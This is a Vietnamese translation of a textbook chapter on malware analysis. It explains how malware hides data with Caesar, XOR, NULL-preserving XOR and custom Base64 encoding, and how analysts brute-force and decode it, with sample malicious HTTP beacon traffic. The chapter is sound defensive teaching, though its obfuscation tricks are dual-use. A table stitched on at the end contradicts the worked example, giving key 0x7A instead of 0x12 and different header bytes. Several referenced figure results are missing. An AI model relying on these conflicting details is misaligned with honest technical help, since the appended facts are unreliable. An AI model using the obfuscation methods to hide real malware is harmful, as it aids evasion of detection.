- Chúng đủ nhỏ gọn để sử dụng trong các môi trường bị hạn chế về không gian như shellcode khai thác lỗ hổng.
- Chúng ít gây chú ý hơn so với các mật mã phức tạp.
- Chúng có mức tiêu tốn tài nguyên (overhead) thấp và do đó ít ảnh hưởng đến hiệu năng hệ thống.

Các tác giả mã độc sử dụng mật mã đơn giản không kỳ vọng mã độc của mình sẽ miễn nhiễm hoàn toàn trước việc bị phát hiện; họ chỉ đơn giản tìm kiếm một cách dễ dàng để ngăn các phương pháp phân tích cơ bản phát hiện ra hành vi của họ.

#### a. Mật Mã Dịch Chuyển Caesar (Caesar Cipher)

Một trong những mật mã đầu tiên từng được sử dụng là mật mã Caesar (Caesar cipher). Mật mã Caesar được sử dụng trong thời kỳ Đế chế La Mã để che giấu các thông điệp được chuyển phát qua chiến trường bằng người đưa thư. Đây là một mật mã đơn giản được hình thành bằng cách dịch chuyển các chữ cái trong bảng chữ cái sang phải ba vị trí. Ví dụ, văn bản sau đây cho thấy một thông điệp bí mật thời chiến được mã hóa bằng mật mã Caesar:
```
ATTACK AT NOON
DWWDFN DW QRRQ
```
#### b. Thuật Toán Mã Hóa XOR



*Hình 13.2: Đồ thị hàm trong IDA Pro biểu diễn vòng lặp giải mã XOR đơn byte.*

Mật mã XOR là một mật mã đơn giản tương tự như mật mã Caesar. XOR là viết tắt của "exclusive OR" (phép hoặc loại trừ) và là một phép toán logic có thể được sử dụng để sửa đổi các bit.

Mật mã XOR sử dụng một giá trị byte tĩnh và sửa đổi từng byte của văn bản gốc (plaintext) bằng cách thực hiện phép toán logic XOR với giá trị đó. Ví dụ, Hình 13-1 cho thấy thông điệp `ATTACK AT NOON` được mã hóa như thế nào khi XOR với byte `0x3C`. Mỗi ký tự được biểu diễn bằng một ô, với ký tự ASCII (hoặc mã điều khiển) ở trên và giá trị hex của ký tự ở dưới.

Như bạn có thể thấy trong ví dụ này, mật mã XOR thường tạo ra các byte không chỉ giới hạn ở các ký tự có thể in được (được biểu thị ở đây bằng các ô bị tô xám). Chữ `C` trong `ATTACK` được chuyển đổi thành mã hex `0x7F`, thường dùng để chỉ ký tự xóa (delete). Tương tự, ký tự khoảng trắng (space) được chuyển thành hex `0x1C`, thường được dùng làm ký tự phân tách tệp (file separator).

Mật mã XOR rất tiện lợi khi sử dụng vì nó vừa đơn giản — chỉ cần một lệnh mã máy duy nhất — vừa có tính thuận nghịch (reversible).

Một mật mã thuận nghịch sử dụng cùng một hàm cho cả mã hóa và giải mã. Để giải mã một đoạn dữ liệu được mã hóa bằng mật mã XOR, bạn chỉ cần lặp lại phép toán XOR với chính khóa đã dùng trong quá trình mã hóa.

Cách triển khai mã hóa XOR mà chúng ta vừa thảo luận — trong đó khóa là giống nhau cho mọi byte được mã hóa — được gọi là **mã hóa XOR một byte (single-byte XOR encoding)**.

$\color{green}{\text{Brute-Forcing XOR Encoding}}$

Hãy tưởng tượng chúng ta đang điều tra một sự cố mã độc. Chúng ta phát hiện ra rằng chỉ vài giây trước khi mã độc khởi chạy, có hai tệp được tạo trong thư mục cache của trình duyệt. Một trong các tệp này là tệp SWF, mà chúng ta phỏng đoán được dùng để khai thác lỗ hổng plugin Flash của trình duyệt. Tệp còn lại có tên là `a.gif`, nhưng nó dường như không có phần header của định dạng GIF (vốn bắt đầu bằng chuỗi ký tự `GIF87a` hoặc `GIF89a`). Thay vào đó, tệp `a.gif` bắt đầu bằng các byte được hiển thị trong Đoạn mã _13.1_.
```
5F 48 42 12 10 12 12 12 16 12 1D 12 ED ED 12 12  _HB.............
AA 12 12 12 12 12 12 12 52 12 08 12 12 12 12 12  ........R.......
12 12 12 12 12 12 12 12 12 12 12 12 12 12 12 12  ................
12 12 12 12 12 12 12 12 12 12 12 12 12 13 12 12  ................
A8 02 12 1C 0D A6 1B DF 33 AA 13 5E DF 33 82 82  ........3..^.3..
46 7A 7B 61 32 62 60 7D 75 60 73 7F 32 7F 67 61  Fz{a2b`}u`s.2.ga
```
_Listing 13.1: Các byte đầu tiên của tệp a.gif được mã hóa bằng XOR_

Chúng ta nghi ngờ tệp này có thể là một tệp thực thi được mã hóa bằng XOR, nhưng làm thế nào để xác minh? Một chiến lược hiệu quả với mã hóa một byte là vét cạn (brute-force).

Vì chỉ có 256 giá trị khả dĩ cho mỗi byte trong tệp, một chiếc máy tính có thể dễ dàng và nhanh chóng thử tất cả 255 khóa 1 byte khả thi bằng cách XOR với phần header của tệp, rồi so sánh kết quả đầu ra với phần header chuẩn của một tệp thực thi. Việc giải mã XOR bằng từng khóa trong số 255 khóa có thể được thực hiện thông qua một đoạn script, và Bảng _13.1_ cho thấy kết quả mà đoạn script đó có thể hiển thị.

| **Khóa XOR (XOR key value)** | **Các byte đầu của tệp (Initial bytes of file)**   | **Tìm thấy MZ header? (MZ header found?)** |
| ---------------------------- | -------------------------------------------------- | ------------------------------------------ |
| Gốc (Original)               | `5F 48 42 12 10 12 12 12 16 12 1D 12 ED ED 12`     | Không                                      |
| XOR với 0x01                 | `5e 49 43 13 11 13 13 13 17 13 1c 13 ec ec 13`     | Không                                      |
| XOR với 0x02                 | `5d 4a 40 10 12 10 10 10 14 10 1f 10 ef ef 10`     | Không                                      |
| XOR với 0x03                 | `5c 4b 41 11 13 11 11 11 15 11 1e 11 ee ee 11`     | Không                                      |
| XOR với 0x04                 | `5b 4c 46 16 14 16 16 16 12 16 19 16 e9 e9 16`     | Không                                      |
| XOR với 0x05                 | `5a 4d 47 17 15 17 17 17 13 17 18 17 e8 e8 17`     | Không                                      |
| ...                          | ...                                                | Không                                      |
| **XOR với 0x12**             | **`4d 5a 50 00 02 00 00 00 04 00 0f 00 ff ff 00`** | **Tìm thấy! (Yes!)**                       |

_Table 13.1: Brute-Force tệp thực thi bị mã hóa XOR_

Bảng _13.1_ hiển thị vài byte đầu tiên của tệp `a.gif` sau khi được XOR với các khóa khác nhau. Mục tiêu của brute-force ở đây là thử nhiều giá trị khóa XOR khác nhau cho đến khi bạn thấy định dạng đầu ra mà bạn nhận biết được — trong trường hợp này là MZ header. Cột đầu tiên liệt kê giá trị được sử dụng làm khóa XOR, cột thứ hai hiển thị các byte nội dung ban đầu sau khi biến đổi, và cột cuối cùng cho biết liệu nội dung nghi ngờ đã được tìm thấy hay chưa.

Hãy để ý ở hàng cuối cùng của bảng này, khi XOR với `0x12`, chúng ta tìm thấy một MZ header. Các tệp PE bắt đầu bằng hai chữ cái `MZ`, và mã hex tương ứng cho `M` và `Z` lần lượt là `4d` và `5a` — đúng hai ký tự hex đầu tiên trong chuỗi cụ thể này.

Tiếp theo, chúng ta kiểm tra một phần lớn hơn của header, và bây giờ chúng ta có thể thấy các phần khác của tệp, như hiển thị trong Đoạn mã _13.2_.
```
4D 5A 50 00 02 00 00 00 04 00 0F 00 FF FF 00 00  MZP.............
B8 00 00 00 00 00 00 00 40 00 1A 00 00 00 00 00  ........@.......
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00  ................
BA 10 00 0E 1F B4 09 CD 21 B8 01 4C CD 21 90 90  ........!..L.!..
54 68 69 73 20 70 72 6F 67 72 61 6D 20 6D 75 73  This program mus
```
_Listing 13-2: Các byte đầu tiên của tệp PE sau khi giải mã_

Tại đây, chúng ta thấy dòng chữ `This program mus`. Đây là phần đầu của đoạn DOS stub — một thành phần phổ biến bên trong tệp thực thi Windows, cung cấp thêm bằng chứng xác thực rằng đây thực sự là một tệp PE.

$\color{green}{\text{Brute-Forcing Many Files}}$

Phương pháp brute-force cũng có thể được áp dụng một cách chủ động. Ví dụ, nếu bạn muốn quét qua nhiều tệp để kiểm tra xem có tệp PE nào bị mã hóa XOR hay không, bạn có thể tạo 255 signature (chữ ký nhận diện) cho tất cả các hoán vị XOR, tập trung vào các thành phần của tệp mà bạn cho rằng chắc chắn sẽ hiện diện.

Chẳng hạn, giả sử chúng ta muốn tìm kiếm các biến thể mã hóa XOR một byte của chuỗi `This program`. Phần header của tệp PE thường chứa các chuỗi như `This program must be run under Win32` hoặc `This program cannot be run in DOS`. Bằng cách tạo ra tất cả các hoán vị có thể có của chuỗi gốc với từng giá trị XOR khả dĩ, chúng ta có được tập hợp các chữ ký cần tìm kiếm, như hiển thị trong Bảng _13.2_.

| **Khóa XOR (XOR key value)** | **Chuỗi "This program" sau khi biến đổi** |
| ---------------------------- | ----------------------------------------- |
| Gốc (Original)               | `54 68 69 73 20 70 72 6f 67 72 61 6d 20`  |
| XOR với 0x01                 | `55 69 68 72 21 71 73 6e 66 73 60 6c 21`  |
| XOR với 0x02                 | `56 6a 6b 71 22 72 70 6d 65 70 63 6f 22`  |
| XOR với 0x03                 | `57 6b 6a 70 23 73 71 6c 64 71 62 6e 23`  |
| XOR với 0x04                 | `50 6c 6d 77 24 74 76 6b 63 76 65 69 24`  |
| XOR với 0x05                 | `51 6d 6c 76 25 75 77 6a 62 77 64 68 25`  |
| ...                          | ...                                       |
| XOR với 0xFF                 | `ab 97 96 8c df 8f 8d 90 98 8d 9e 92 df`  |

_Table 13.2: Tạo chữ ký XOR Brute-Force_

$\color{green}{\text{NULL-Preserving Single-Byte XOR Encoding}}$

Hãy nhìn lại tệp đã mã hóa trong Đoạn mã _13.1_. Hãy để ý xem khóa XOR `0x12` lộ liễu đến mức nào, ngay cả khi chỉ nhìn lướt qua. Hầu hết các byte ở phần đầu của header đều là `0x12`! Điều này bộc lộ một điểm yếu đặc trưng của mã hóa một byte: Nó không có khả năng che giấu hiệu quả trước một người dùng đang kiểm tra nội dung thủ công bằng hex editor. Nếu nội dung được mã hóa có số lượng lớn các byte NULL (`0x00`), khóa 1 byte sẽ lập tức bị lộ diện (vì `0x00 XOR Key = Key`).

Các tác giả mã độc trên thực tế đã nghĩ ra một cách khéo léo để giảm thiểu vấn đề này bằng cách sử dụng lược đồ **mã hóa XOR một byte bảo toàn NULL (NULL-preserving single-byte XOR encoding)**. Không giống như lược đồ mã hóa XOR thông thường, lược đồ XOR bảo toàn NULL có hai ngoại lệ:

- Nếu ký tự plaintext là NULL (`0x00`) hoặc chính là khóa, thì byte đó sẽ bị bỏ qua (không biến đổi).
- Nếu ký tự plaintext không phải là NULL và cũng không phải là khóa, thì nó mới được mã hóa bằng phép XOR với khóa.

Như hiển thị trong Bảng _13.3_, mã nguồn cho hàm XOR sửa đổi này không phức tạp hơn hàm gốc là bao.

| **XOR gốc (Original XOR)** | **XOR bảo toàn NULL (NULL-preserving XOR)**             |
| -------------------------- | ------------------------------------------------------- |
| `buf[i] ^= key;`           | `if (buf[i] != 0 && buf[i] != key)`<br>`buf[i] ^= key;` |

_Table 13.3: Mã hóa XOR thông thường so với XOR bảo toàn NULL_

Như vậy trong Bảng _13.3_, nếu khóa là `0x12`, thì bất kỳ byte nào có giá trị `0x00` hoặc `0x12` sẽ giữ nguyên, còn các byte khác đều được biến đổi qua phép XOR với `0x12`. Khi một tệp PE được mã hóa theo cách này, khóa mã hóa sẽ ít bị lộ rõ về mặt thị giác hơn nhiều.

Bây giờ hãy so sánh Đoạn mã _13.1_ (với khóa `0x12` lộ liễu) với Đoạn mã _13.3_. Đoạn mã _13.3_ đại diện cho cùng một tệp PE đó, lại được mã hóa bằng `0x12`, nhưng lần này sử dụng lược đồ XOR bảo toàn NULL. Như bạn thấy, với mã hóa bảo toàn NULL, việc nhận diện dấu vết mã hóa XOR khó khăn hơn nhiều, và không còn dấu vết rõ rệt nào của khóa mã hóa.
```
5F 48 42 00 10 00 00 00 16 00 1D 00 ED ED 00 00  _HB.............
AA 00 00 00 00 00 00 00 52 00 08 00 00 00 00 00  ........R.......
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00 00 00 00 00 00 00 00 00 00 00 00 00 13 00 00  ................
A8 02 00 1C 0D A6 1B DF 33 AA 13 5E DF 33 82 82  ........3..^.3..
46 7A 7B 61 32 62 60 7D 75 60 73 7F 32 7F 67 61  Fz{a2b`}u`s.2.ga
```
_Listing 13.3: Các byte đầu tiên của tệp sử dụng mã hóa XOR bảo toàn NULL_

Kỹ thuật XOR bảo toàn NULL này đặc biệt phổ biến trong shellcode, nơi mà khả năng thực hiện mã hóa với dung lượng code cực nhỏ đóng vai trò sống còn.

$\color{green}{\text{Identifying XOR Loops in IDA Pro}}$

Bây giờ hãy tưởng tượng bạn tìm thấy shellcode bên trong tệp SWF. Bạn đang dịch ngược shellcode trong IDA Pro và muốn tìm vòng lặp XOR mà bạn nghi ngờ rằng nó tồn tại để giải mã tệp `a.gif` đi kèm.

Trong mã dịch ngược, các vòng lặp XOR có thể được nhận diện bởi các vòng lặp nhỏ chứa lệnh `xor` ở giữa. Cách dễ nhất để tìm vòng lặp XOR trong IDA Pro là tìm kiếm tất cả các phiên bản của lệnh `xor` theo các bước sau:

1. Đảm bảo bạn đang xem chế độ mã code (tiêu đề cửa sổ chứa chữ "IDA View").
2. Chọn **Search -> Text**.
3. Trong hộp thoại Text Search, nhập `xor`, tích chọn ô **Find all occurrences**, sau đó nhấn **OK**. Bạn sẽ thấy một cửa sổ kết quả tương tự như trong Hình 13-2.

Tuy nhiên, việc tìm kiếm phát hiện lệnh `xor` không có nghĩa là lệnh `xor` đó đang được dùng cho mục đích mã hóa dữ liệu. Lệnh `xor` có thể dùng cho nhiều mục đích khác. Một trong những ứng dụng phổ biến nhất của XOR là xóa nội dung của một thanh ghi về 0. Lệnh XOR có thể xuất hiện dưới ba dạng:

- XOR một thanh ghi với chính nó (ví dụ: `xor eax, eax`)
- XOR một thanh ghi (hoặc ô nhớ) với một hằng số (ví dụ: `xor edx, 12h`)
- XOR một thanh ghi (hoặc ô nhớ) với một thanh ghi khác (hoặc ô nhớ khác)

Dạng phổ biến nhất là dạng đầu tiên, vì phép XOR một thanh ghi với chính nó là cách hiệu quả nhất để đưa giá trị thanh ghi về 0. Rất may là thao tác xóa thanh ghi này không liên quan đến việc mã hóa dữ liệu, vì vậy bạn có thể bỏ qua nó. Như bạn thấy trong Hình _13.2_, hầu hết các lệnh được liệt kê là phép XOR một thanh ghi với chính nó (chẳng hạn như `xor edx, edx`).

Một vòng lặp mã hóa XOR có thể sử dụng một trong hai dạng còn lại: XOR một thanh ghi với một hằng số, hoặc XOR một thanh ghi với một thanh ghi khác. Nếu may mắn, lệnh XOR sẽ là giữa thanh ghi với một hằng số, vì điều đó xác nhận gần như chắc chắn bạn đang chứng kiến thao tác mã hóa, và bạn sẽ biết luôn khóa mã hóa. Lệnh `xor edx, 12h` trong Hình _13.2_ là một ví dụ về dạng XOR thứ hai này.

Một trong những dấu hiệu của quá trình mã hóa là một vòng lặp nhỏ chứa hàm XOR. Hãy xem xét lệnh chúng ta đã xác định trong Hình _13.2_. Như biểu đồ luồng (flowchart) của IDA Pro trong Hình _13.3_ cho thấy, lệnh XOR với `0x12` thực sự là một phần của một vòng lặp nhỏ. Bạn cũng có thể thấy rằng khối lệnh tại `loc_4012F4` tăng biến đếm, và khối lệnh tại `loc_401301` kiểm tra xem biến đếm đã vượt quá một độ dài nhất định hay chưa.

#### c. Các Cơ Chế Mã Hóa Đơn Giản Khác

Trước những điểm yếu của mã hóa một byte, nhiều tác giả mã độc đã triển khai các lược đồ mã hóa phức tạp hơn một chút (hoặc chỉ đơn giản là bất ngờ hơn) để ít bị phát hiện bởi kỹ thuật brute-force nhưng vẫn dễ thực hiện. Bảng _13.4_ mô tả ngắn gọn một số lược đồ mã hóa này. Chúng ta sẽ không đi sâu vào chi tiết cụ thể của từng kỹ thuật, nhưng bạn nên nắm rõ để có thể nhận ra khi bắt gặp chúng.

| **Lược đồ mã hóa (Encoding scheme)** | **Mô tả (Description)**                                                                                                                                                                                                                                           |
| ------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **ADD, SUB**                         | Các thuật toán mã hóa có thể sử dụng phép cộng (`ADD`) và trừ (`SUB`) cho từng byte theo cách tương tự như XOR. ADD và SUB không có tính thuận nghịch bằng chính nó, vì vậy chúng cần được dùng theo cặp (một cái để mã hóa và cái kia để giải mã).               |
| **ROL, ROR**                         | Các lệnh xoay bit sang phải hoặc sang trái trong phạm vi một byte. Giống như ADD và SUB, các lệnh này cần được sử dụng theo cặp (`ROL` để giải mã cho `ROR` và ngược lại) vì chúng không tự đảo ngược được.                                                       |
| **ROT**                              | Đây chính là mật mã Caesar nguyên bản. Nó thường được sử dụng với các ký tự chữ cái (`A–Z` và `a–z`) hoặc 94 ký tự có thể in được trong bảng mã ASCII tiêu chuẩn (chẳng hạn như ROT13, ROT47).                                                                    |
| **Multibyte**                        | Thay vì dùng một byte đơn lẻ, thuật toán có thể sử dụng một khóa dài hơn, thường có độ dài 4 hoặc 8 byte. Kỹ thuật này thường áp dụng phép XOR cho từng khối dữ liệu để thuận tiện.                                                                               |
| **Chained or loopback**              | Thuật toán này sử dụng chính nội dung dữ liệu làm một phần của khóa, với nhiều cách triển khai khác nhau. Phổ biến nhất là khóa ban đầu được áp dụng vào một đầu của bản rõ (đầu hoặc cuối), và ký tự đầu ra đã mã hóa sẽ được dùng làm khóa cho ký tự tiếp theo. |

_Table 13.4: Các thuật toán mã hóa đơn giản bổ sung_

#### d. Bảng Mã Base64 Chuẩn và Tùy Biến

Mã hóa Base64 được sử dụng để biểu diễn dữ liệu nhị phân (binary data) dưới định dạng chuỗi ASCII. Mã hóa Base64 cực kỳ phổ biến trong mã độc, do đó bạn cần biết cách nhận diện nó.

Thuật ngữ **Base64** bắt nguồn từ tiêu chuẩn MIME (Multipurpose Internet Mail Extensions). Ban đầu nó được phát triển để mã hóa các tệp đính kèm email phục vụ cho việc truyền tải, nhưng hiện nay nó được sử dụng rộng rãi cho cả HTTP và XML.

Mã hóa Base64 chuyển đổi dữ liệu nhị phân thành một bộ ký tự giới hạn gồm 64 ký tự. Có nhiều bảng mã ký tự khác nhau cho các biến thể Base64. Tất cả đều sử dụng 64 ký tự chính và thường có thêm một ký tự bổ sung để biểu thị phần đệm (padding), thường là dấu `=`.

Bảng ký tự phổ biến nhất là Base64 chuẩn của MIME, sử dụng `A–Z`, `a–z` và `0–9` cho 62 giá trị đầu tiên, cùng dấu `+` và `/` cho hai giá trị cuối cùng. Kết quả của việc nén dữ liệu vào một tập hợp ký tự nhỏ hơn là dữ liệu sau khi mã hóa Base64 sẽ dài hơn dữ liệu gốc. Cứ mỗi **3 byte dữ liệu nhị phân** sẽ tạo ra ít nhất **4 byte dữ liệu được mã hóa Base64**.

Nếu bạn từng nhìn thấy một phần của tệp email thô như trong Đoạn mã _13.4_, bạn đã từng thấy mã hóa Base64. Ở đây, các dòng đầu tiên hiển thị phần email header theo sau bởi một dòng trống, và phần dữ liệu mã hóa Base64 nằm ở phía dưới cùng.
```
Content-Type: multipart/alternative;
boundary="_002_4E36B98B966D7448815A3216ACF82AA201ED633ED1MBX3THNDRBIRD_"
MIME-Version: 1.0

--_002_4E36B98B966D7448815A3216ACF82AA201ED633ED1MBX3THNDRBIRD_
Content-Type: text/html; charset="utf-8"
Content-Transfer-Encoding: base64

SWYgeW91IGFyZSByZWFkaW5nIHRoaXMsIHlvdSBwcm9iYWJseSBzaG91bGQganVzdCBza2lwIHRoaX
MgY2hhcHRlciBhbmQgZ28gdG8gdGhlIG5leHQgb25lLiBEbyB5b3UgcmVhbGx5IGhhdmUgdGhlIH
RpbWUgdG8gdHlwZSB0aGlzIHdob2xlIHN0cmluZyBpbj8gWW91IGFyZSBvYnZpb3VzbHkgdGFsZW
50ZWQuIE1heWJlIHlvdSBzaG91bGQgY29udGFjdCB0aGUgYXV0aG9ycyBhbmQgc2VlIGlmIH
```
_Listing 13-4: Một phần thông điệp email thô hiển thị dữ liệu mã hóa Base64_

$\color{green}{\text{Transforming Data to Base64}}$

Quy trình chuyển đổi dữ liệu thô sang Base64 tuân theo quy chuẩn chung:

1. Dữ liệu được chia thành các khối 24-bit (3 byte). Ký tự đầu tiên được đặt ở vị trí có trọng số cao nhất (most significant), ký tự thứ hai ở 8 bit giữa, và ký tự thứ ba ở 8 bit có trọng số thấp nhất.
2. Tiếp theo, các bit được đọc theo từng khối 6 bit, bắt đầu từ vị trí có trọng số cao nhất.
3. Con số biểu diễn bởi 6 bit này (từ 0 đến 63) được sử dụng làm chỉ số (index) tra vào một chuỗi dài 64 byte chứa các ký tự được phép trong bảng mã Base64.

Hình _13.4_ cho thấy quá trình chuyển đổi diễn ra như thế nào. Dòng trên cùng là chuỗi gốc (`ATT`). Dòng thứ hai là biểu diễn hex của `ATT` ở cấp độ nibble (1 nibble = 4 bit). Dòng giữa hiển thị các bit thực tế biểu diễn `ATT`. Dòng thứ tư là giá trị thập phân của các bit trong từng đoạn dài 6 bit. Cuối cùng, chuỗi cuối cùng là các ký tự đại diện cho các số thập phân đó sau khi tra vào chuỗi tham chiếu.

Chữ cái `A` tương ứng với chuỗi bit `01000001`. 6 bit đầu tiên của `A` (`010000` = 16) được chuyển thành chữ cái `Q` trong Base64. Hai bit cuối của `A` (`01`) kết hợp với 4 bit đầu của chữ cái `T` (`0101`) thành `010101` (= 21), chuyển thành ký tự Base64 thứ hai là `V`, và cứ tiếp tục như vậy.

Quá trình giải mã từ Base64 về dữ liệu thô tuân theo quy trình tương tự nhưng theo chiều ngược lại. Mỗi ký tự Base64 được chuyển đổi thành 6 bit, và tất cả các bit được ghép lại theo thứ tự. Sau đó, các bit được đọc theo từng nhóm 8 bit, với mỗi nhóm 8 bit định nghĩa một byte dữ liệu thô.

$\color{green}{\text{Identifying and Decoding Base64}}$

Giả sử chúng ta đang điều tra một mã độc thực hiện hai yêu cầu HTTP GET như trong Đoạn mã _13.5_.
```http
GET /X29tbVEuYC8=/index.htm
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
Cookie: Ym90NTQxNjQ

GET /c2UsYi1kYWM0cnUjdFlvbiAjb21wbFU0YP==/index.htm
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
Cookie: Ym90NTQxNjQ
```
_Listing 13.5: Mẫu lưu lượng mạng độc hại_

Khi đã quen thuộc, việc nhận diện nội dung mã hóa Base64 là khá dễ dàng. Nó xuất hiện dưới dạng một chuỗi ký tự trông ngẫu nhiên, với tập ký tự bao gồm chữ cái, chữ số và hai ký tự đặc biệt. Một hoặc hai ký tự đệm (`=`) có thể xuất hiện ở cuối chuỗi mã hóa; nếu có đệm, độ dài của chuỗi mã hóa sẽ luôn chia hết cho 4.

Trong Đoạn mã _13.5_, thoạt nhìn cả đường dẫn URL lẫn Cookie đều có vẻ là các giá trị được mã hóa Base64. Trong khi giá trị Cookie không thay đổi, có vẻ như kẻ tấn công đang gửi hai thông điệp mã hóa khác nhau trong hai yêu cầu GET.

Một cách nhanh chóng để mã hóa hoặc giải mã bằng chuẩn Base64 là sử dụng một công cụ trực tuyến, chẳng hạn như bộ giải mã tại `[http://www.opinionatedgeek.com/dotnet/tools/base64decode/](http://www.opinionatedgeek.com/dotnet/tools/base64decode/)`. Bạn chỉ cần dán nội dung mã hóa Base64 vào khung trên và nhấn nút **Decode Safely As Text**. Ví dụ, Hình _13.5_ cho thấy điều gì xảy ra nếu chúng ta đưa giá trị Cookie vào bộ giải mã Base64.

Hãy nhớ lại quy tắc: cứ mỗi 3 ký tự đầu vào sẽ trở thành 4 ký tự đầu ra, và các khối 4 ký tự đầu ra sẽ được đệm nếu thiếu. Có bao nhiêu ký tự trong chuỗi Cookie? Vì chuỗi có 11 ký tự, chúng ta biết rằng nếu đây là một chuỗi Base64 thì nó chưa được đệm đúng quy cách (độ dài không chia hết cho 4).

Về mặt kỹ thuật, các ký tự đệm là tùy chọn và không bắt buộc đối với việc giải mã chính xác. Mã độc thường tránh sử dụng ký tự đệm, có lẽ để trông bớt giống Base64 hơn hoặc để tránh các network signature. Trong Hình _13.6_, chúng ta thêm ký tự đệm `=` vào cuối và thử lại:

Rõ ràng, kẻ tấn công đang theo dõi các bot của mình bằng cách gán số định danh cho chúng và mã hóa Base64 giá trị đó vào trường cookie.

Để tìm hàm Base64 trong mã độc, chúng ta có thể tìm kiếm chuỗi 64 byte đặc trưng thường được dùng để cài đặt thuật toán. Chuỗi phổ biến nhất tuân theo chuẩn MIME Base64 như sau:
```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
```
Vì cách cài đặt Base64 thường sử dụng chuỗi chỉ mục (indexing string), mã chứa thuật toán Base64 sẽ thường chứa chuỗi 64 ký tự dễ nhận biết này. Chuỗi chỉ mục Base64 luôn bao gồm các ký tự in được (nếu không sẽ làm mất đi mục đích của thuật toán), do đó có thể dễ dàng phát hiện bằng mắt thường khi xem danh sách chuỗi (strings).

Một bằng chứng thứ hai có thể được sử dụng để xác nhận sự hiện diện của thuật toán mã hóa Base64 là sự xuất hiện của một ký tự đệm đơn độc (thường là `=`) được hardcode bên trong hàm thực hiện mã hóa.

Tiếp theo, hãy nhìn vào các giá trị URI từ Đoạn mã _13.5_. Cả hai chuỗi đều mang đầy đủ đặc điểm của mã hóa Base64: tập ký tự ngẫu nhiên bị giới hạn, được đệm bằng dấu `=` để có độ dài chia hết cho 4. Hình _13.7_ cho thấy kết quả khi chúng ta chạy chúng qua một bộ giải mã Base64 tiêu chuẩn.


Rõ ràng đây không phải là mã hóa Base64 tiêu chuẩn! Một trong những điều tuyệt vời của Base64 (ít nhất là từ góc nhìn của tác giả mã độc) là việc phát triển một mật mã thay thế tùy biến (custom substitution cipher) dễ dàng đến mức nào. Thành phần duy nhất cần thay đổi là chuỗi chỉ mục, và nó vẫn giữ nguyên mọi đặc tính mong muốn của Base64 tiêu chuẩn. Miễn là chuỗi đó có đủ 64 ký tự duy nhất, nó sẽ hoạt động hoàn hảo để tạo ra một mật mã thay thế riêng biệt.

Một cách đơn giản để tạo chuỗi chỉ mục mới là chuyển một số ký tự lên đầu chuỗi. Ví dụ, chuỗi sau đây được tạo ra bằng cách đưa ký tự `a` lên đầu chuỗi:
```
aABCDEFGHIJKLMNOPQRSTUVWXYZbcdefghijklmnopqrstuvwxyz0123456789+/
```
Khi chuỗi này được sử dụng với thuật toán Base64, về bản chất nó tạo ra một "khóa" mới cho chuỗi được mã hóa, khiến nó rất khó giải mã nếu không biết chuỗi chỉ mục này. Mã độc sử dụng kỹ thuật này để làm cho đầu ra của nó trông giống như Base64, mặc dù nó không thể được giải mã bằng các hàm Base64 thông thường.

Mã độc đã tạo ra các yêu cầu GET trong Đoạn mã _13.5_ đã sử dụng mật mã thay thế tùy biến này. Nhìn lại danh sách chuỗi, chúng ta nhận ra rằng mình đã nhầm lẫn chuỗi tùy biến với chuỗi tiêu chuẩn vì chúng trông quá giống nhau. Chuỗi chỉ mục thực tế chính là chuỗi ở trên, với ký tự `a` được đưa lên đầu. Kẻ tấn công chỉ đơn giản là sử dụng thuật toán chuẩn nhưng thay đổi chuỗi mã hóa. Trong Hình _13.8_, chúng ta thử giải mã lại, nhưng lần này với chuỗi chỉ mục mới.



*Hình 13.1: Minh họa chuỗi ký tự ATTACK AT NOON được mã hóa bằng thuật toán XOR với khóa 0x3C.*

| Khóa XOR (1 byte) | Kết quả giải mã đoạn mở đầu PE | Trạng thái kiểm tra chữ ký MZ |
| :--- | :--- | :--- |
| `0x3B` | `96 11 4E 00 ...` | Sai chữ ký |
| `0x5A` | `07 8C 1A 02 ...` | Sai chữ ký |
| **`0x7A`** | **`4D 5A 90 00` (`MZ`)** | **Phát hiện đúng tệp PE hợp lệ! Khóa giải mã là 0x7A** |

*Bảng 13.1 & 13.2: Kỹ thuật dò quét vét cạn (Brute-force) 256 khóa XOR đơn byte dựa trên dấu hiệu tiêu đề PE.*

